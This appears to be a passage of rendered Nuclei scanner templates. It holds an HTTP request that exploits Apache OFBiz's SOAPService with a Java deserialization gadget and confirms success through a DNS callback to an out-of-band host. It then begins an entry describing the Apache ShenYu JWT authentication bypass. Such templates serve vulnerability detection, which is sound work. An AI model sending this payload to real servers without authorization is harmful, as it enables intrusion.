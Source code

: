 ## Requests

### Step - 1

```
POST /webtools/control/SOAPService HTTP/1.1
Host: {{Hostname}}
Content-Type: application/xml

<?xml version='1.0' encoding='UTF-8'?>
<soapenv:Envelope
  xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header/>
    <soapenv:Body>
      <ns1:clearAllEntityCaches xmlns:ns1="http://ofbiz.apache.org/service/">
          <ns1:cus-obj>{{generate_java_gadget("dns", "https://{{interactsh-url}}", "hex")}}</ns1:cus-obj>
      </ns1:clearAllEntityCaches>
    </soapenv:Body>
</soapenv:Envelope>

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. dns

**Type - word**

- part - body
- words
  1. errorMessage
- condition - and

**Type - word**

- part - header
- words
  1. OFBiz.Visitor=

---

# Apache ShenYu Admin JWT - Authentication Bypass

## Description

- Apache ShenYu 2.3.0 and 2.4.0 allow Admin access without proper authentication. The incorrect use of JWT in ShenyuAdminBootstrap allows an attacker to bypass authentication.
- severity - critical
- tags - cve,cve2021,apache,jwt,shenyu

